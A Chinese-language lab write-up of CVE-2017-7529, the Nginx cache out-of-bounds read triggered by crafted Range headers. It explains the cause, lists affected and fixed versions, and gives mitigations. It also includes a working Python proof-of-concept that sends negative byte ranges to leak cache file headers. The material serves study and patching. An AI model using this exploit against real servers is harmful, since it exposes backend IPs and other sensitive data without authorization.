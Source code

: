 # CVE-2017-7529 Nginx越界读取缓存漏洞

# 漏洞原理

**Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件，缓存的部分储存在文件中，每个缓存文件包括"文件头"+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的"HTTP返回包体"返回给用户。**
**如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容**

**反向代理：就是用户访问nginx反向代理服务器即可访问到目标服务器的内容，反向代理服务器分别存放了目标服务器ABC各自的数据，因此解决了集群不知道先访问谁的问题，对于用户而言访问代理服务器相当于当问目的服务器**



**正向代理：就是挂个国外或者国内服务器vpn/vps  ，然后访问资源**



# 漏洞详情

该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。
漏洞原因：是由于对http header中range域处理不当造成。主要代码是ngx_http_range_parse函数中的循环。
了解到HTTP头部range域的表示方式是：bytes=<start>-<end> 范围大概是: bytes=4096-8192，字符串指针p的内容即为bytes的范围。
这段代码是要把“-”两边的数字取出分别赋值给start和end变量，标记读取文件的偏移和结束位置。
也就是说bytes=-这个范围内读取到的是缓存文件内容本身。假如这个缓存文件是有文件头，把start设置成负数呢？很好理解，那么它读取的位置就会往前面移动，导致文件头的信息也会被读取出来



# 漏洞影响版本

Nginx version 0.5.6 - 1.13.2
修复版本
Nginx version 1.13.3, 1.12.1







打开网址

![image-20220419102639604](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220419102639604.png)

即可访问到默认页面，这个页面实际上是反向代理的8081端口的内容

3.利用POC，将代码复制到1.py里面，修改your-ip为自己的ip
POC如下：

```python
#!/usr/bin/env python
import sys
import requests
if len(sys.argv)<2:
print("%s url"%(sys.argv[0]))
print("eg: python %s http://your-ip:8080/"%(sys.argv[0]))
 sys.exit()
headers ={
'User-Agent':"Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset =605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range']="bytes=-%d,-%d"%(
 n,0x8000000000000000- n)
r = requests.get(url, headers=headers)
print(r.text)
```

使用终端执行

![image-20220419103345148](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220419103345148.png)

大致的意思因该就是，服务器将缓存信息存在了缓存文件中，vulhub环境中反向代理的服务器是127.0.0.1的8081端口，利用poc后读取到的信息是8081端口返回给主机的响应包。

而响应包中常常储存着其他信息，例如请求的路径，返回响应头中的server，响应主题等信息



所以会存在一定的敏感信息泄漏。



# 修复手法

1. 升级到 1.13.3
2. 在 Nginx 配置文件中添加 max_ranges 1，从而禁用 multipart range

